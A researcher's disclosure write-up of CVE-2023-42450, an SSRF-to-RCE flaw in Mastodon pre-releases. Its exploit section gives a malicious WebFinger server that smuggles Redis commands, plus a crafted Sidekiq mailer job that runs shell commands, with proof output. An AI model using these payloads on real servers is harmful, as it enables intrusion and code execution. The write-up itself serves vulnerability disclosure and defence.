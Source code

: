 ```yaml
---
layout: post
title: From SSRF to RCE on Mastodon (CVE-2023-42450)
---
```


I contacted the Mastodon security team in August 2023 to report 2 vulnerabilities in [Mastodon](https://github.com/mastodon/mastodon) itself, the software running a self-hosted, globally interconnected microblogging community.

New versions of Mastodon were released in September and related GitHub Security Advisory (GHSAs) published:

- [GHSA-hcqf-fw2r-52g4](https://github.com/mastodon/mastodon/security/advisories/GHSA-hcqf-fw2r-52g4): Server-side request forgery
- [GHSA-v3xf-c9qf-j667](https://github.com/mastodon/mastodon/security/advisories/GHSA-v3xf-c9qf-j667): Invalid domain name normalization

If you stumbled upon this [toot](https://mastodon.social/@MastodonEngineering/111071347844577269), these are the security patches I'm writing about. I found these vulnerabilities interesting enough from a technical point of view to publish write-ups, which basically are the (slightly edited) reports sent to Mastodon's security team.

This first blog post is about [GHSA-hcqf-fw2r-52g4](https://github.com/mastodon/mastodon/security/advisories/GHSA-hcqf-fw2r-52g4) (for which GitHub issued CVE-2023-42450), an SSRF which leads to remote code execution. **tl;dr: pre-releases only, not exploitable in prod in default configuration.**

<!-- more -->
 
# Summary

A Server-Side Request Forgery (also known as SSRF) vulnerability is present in the WebFinger code. It allows an attacker to send arbitrary data to the Redis server and leads to arbitrary code execution under the `mastodon` user.

This vulnerability was introduced in July 2023 by these [changes](https://github.com/mastodon/mastodon/pull/26219).

# Prerequisites

The vulnerability doesn't exist in production mode because the behavior of the `check_private_address` function [differs in development environments](https://github.com/mastodon/mastodon/blob/fe31571965a6b261165342ec97d11d67f0fae12b/app/lib/request.rb#L343). This function is called during the socket creation used for HTTP requests, a counter-measure to prevent SSRF.

Note that the `ALLOWED_PRIVATE_ADDRESSES` setting variable whitelists specific addresses/subnets for outgoing HTTP queries; if set, production environments might be vulnerable.

If a Redis password is set, the Redis exploitation vector doesn't work (unless the password is known). By default, the password is blank if Mastodon was installed using the command `RAILS_ENV=production bundle exec rake mastodon:setup` (or if this [Digital Ocean tutorial](https://www.digitalocean.com/community/tutorials/how-to-install-mastodon-on-ubuntu-20-04) was followed).


# Analysis

1. WebFinger requests can be triggered by authenticated users, eg. by searching for an account (`/api/v2/search?q=joe%40evil.com&resolve=true&limit=5`).
2. [ActivityPub::FetchRemoteActorService::check_webfinger!](https://github.com/mastodon/mastodon/blob/df6e7198984b42cf8d64e66548742e14264236a0/app/services/activitypub/fetch_remote_actor_service.rb#L47-L67) makes a first HTTPS request to the domain specified (eg. `/.well-known/webfinger?resource=acct:joe@evil.com`).
3. A JSON-LD response is returned by the server. If the `username` or `domain` specified in the `subject` field don't match the ones provided initially (here `joe@evil.com`), a second request is made to follow the redirection.
4. An invalid `domain` can be provided by a malicious server in the `subject` field. This domain is used [directly](https://github.com/mastodon/mastodon/blob/df6e7198984b42cf8d64e66548742e14264236a0/app/lib/webfinger.rb#L38) to build the URI. If the domain ends with `.onion`, an HTTP URI is [built](https://github.com/mastodon/mastodon/blob/df6e7198984b42cf8d64e66548742e14264236a0/app/lib/webfinger.rb#L104).
5. Finally, [Webfinger::webfinger_request](https://github.com/mastodon/mastodon/blob/df6e7198984b42cf8d64e66548742e14264236a0/app/lib/webfinger.rb#L98-L100) creates a `Request`.

The URI controlled by an attacker is directly used to build an HTTP request. White spaces and line returns aren't encoded, which is the root cause of this SSRF vulnerability.


# Exploit

## Arbitrary file creation

Here's the Python code of a malicious server which triggers the vulnerability and leads to the creation of the `/run/shm/pwn` file through SSRF. 3 [commands](https://redis.io/commands/) are sent to the Redis service on `127.0.0.1:6379` to modify its configuration on-the-fly:

```python
@app.route("/.well-known/webfinger")
def webfinger():
    cmd = ["config set dir /run/shm/", "config set dbfilename pwn", "save"]
    pwn = "\n\n".join(cmd)
    response = {
        "subject": f"acct:john@127.0.0.1:6379/\n\n\n{pwn}\n\n/.onion",
        "links": [
            {
                "rel": "self",
                "type": "application/activity+json",
                "href": "https://evil.com/host/users/john"
            }
        ]
    }
    return Response(json.dumps(response), mimetype="application/jrd+json")
```

The following `strace` output highlights Redis' behavior:

```
# strace -p $(pidod redis-server) -ff -e chdir,rename,read -v -s 4096 |& grep -v 'EAGAIN\|redis-server'
[pid 42605] read(22, "GET /\n\n\nconfig set dir /run/shm/\n\nconfig set dbfilename pwn\n\nsave\n\n/.onion/.well-known/webfinger?resource=acct:john@127.0.0.1:6379/\n\n\nconfig set dir /run/shm/\n\nconfig set dbfilename pwn\n\nsave\n\n/.onion HTTP/1.1\r\nUser-Agent: http.rb/5.1.1 (Mastodon/4.2.0-beta1; +http://localhost:3000/)\r\nHost: 127.0.0.1\r\nDate: Tue, 15 Aug 2023 17:10:38 GMT\r\nAccept-Encoding: gzip\r\nAccept: application/jrd+json, application/json\r\nConnection: close\r\n\r\n", 16384) = 432
[pid 42605] chdir("/run/shm/")          = 0
[pid 42605] rename("temp-42605.rdb", "pwn") = 0
[pid 42605] chdir("/run/shm/")          = 0
[pid 42605] rename("temp-42605.rdb", "pwn") = 0
# ls -l /run/shm/pwn
-rw-rw---- 1 redis redis 187354 Aug 15 17:10 /run/shm/pwn
```

[Redis post-exploitation](https://raw.githubusercontent.com/tom0li/collection-document/master/15-redis-post-exploitation.pdf) might be used to eventually gain code execution under the `redis` user. I went another way and tried to find a more generic exploitation vector.


## Remote command execution

Mastodon makes use of [Sidekiq](https://sidekiq.org/) to run background jobs such as sending emails. Since job queues are handled by Redis (as explained [here](https://www.paweldabrowski.com/articles/how-sidekiq-really-works)), the idea of crafting a malicious job to gain code execution emerged.

Digging into the [Action Mailer](https://guides.rubyonrails.org/action_mailer_basics.html) source code confirmed that it's possible, as shown by the following Python code which creates a malicious mailer job pushed to Redis:

```python
def create_payload(command):
    payload = {
        "retry": False,
        "queue": "mailers",
        "class": "ActiveJob::QueueAdapters::SidekiqAdapter::JobWrapper",
        "wrapped": "ActionMailer::MailDeliveryJob",
        "args": [
            {
                "job_class": "ActionMailer::MailDeliveryJob",
                "queue_name": "mailers",
                "arguments": [
                    "Object",
                    "instance_eval",
                    "delivery_method",
                    {
                        "args": [command],
                        "_aj_ruby2_keywords": ["args"]
                    }
                ],
                "executions": 0,
                "exception_executions": {}
            }
        ]
    }
    return json.dumps(json.dumps(payload, separators=(",", ":")), separators=(",", ":")

payload = create_payload("`id>/tmp/pwn`")
cmd = ["sadd queues mailers", f"lpush queue:mailers {payload}"]
```

This code:

1. Crafts a malicious Ruby method which will be invoked by [MailDeliveryJob.perform](https://github.com/rails/rails/blob/36ebb6ba2dbe60e2e689e97c71b7b12039c449f1/actionmailer/lib/action_mailer/mail_delivery_job.rb#L21-L29) thanks to `public_send`, here ``Object.instance_eval("`id>/tmp/pwn`")``.
2. Embeds this payload as an `ActiveJob::QueueAdapters::SidekiqAdapter::JobWrapper`.
3. Encodes the payload as JSON to result in a Sidekiq job.
4. Pushes this job to the `mailers` queue through Redis (`sadd queue:mailers`, `lpush queue:mailers "payload"`)

Here are the resulting Redis commands:

```
sadd queues mailers
lpush queue:mailers "{\"retry\":false,\"queue\":\"mailers\",\"class\":\"ActiveJob::QueueAdapters::SidekiqAdapter::JobWrapper\",\"wrapped\":\"ActionMailer::MailDeliveryJob\",\"args\":[{\"job_class\":\"ActionMailer::MailDeliveryJob\",\"queue_name\":\"mailers\",\"arguments\":[\"Object\",\"instance_eval\",\"delivery_method\",{\"args\":[\"`id>/tmp/pwn`\"],\"_aj_ruby2_keywords\":[\"args\"]}],\"executions\":0,\"exception_executions\":{}}]}"
```

The Ruby code is actually executed under the `mastodon` user, through the Sidekiq `mailers` queue:

```shell
$ cat /tmp/pwn
uid=1001(mastodon) gid=1001(mastodon) groups=1001(mastodon)
```

I doubt this is the only exploitation vector and other methods might exist, by the way. And note that HTTP requests made to Redis leave typical entries in the Redis server logs:

```
# grep POST /var/log/redis/redis-server.log | tail -1
10380:M 15 Aug 2023 11:33:21.791 # Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host: commands to Redis. This is likely due to an attacker attempting to use Cross Protocol Scripting to compromise your Redis instance. Connection aborted.
```


# Conclusion

Don't leave Mastodon, it's far better than Twitter ;)

All in all, this vulnerability is not that useful from an attacker point of view. Indeed, it is not exploitable in production in default configurations and the affected version is a pre-release (>= 4.2.0-beta1, < 4.2.0-rc2). [private_address_check](https://github.com/jtdowney/private_address_check) being used for every HTTP queries, it effectively blocks SSRF attacks.

The second blogpost ([GHSA-v3xf-c9qf-j667](https://github.com/mastodon/mastodon/security/advisories/GHSA-v3xf-c9qf-j667)) will detail how attackers could spoof Mastodon instances depending on their domain names. Stay tuned!
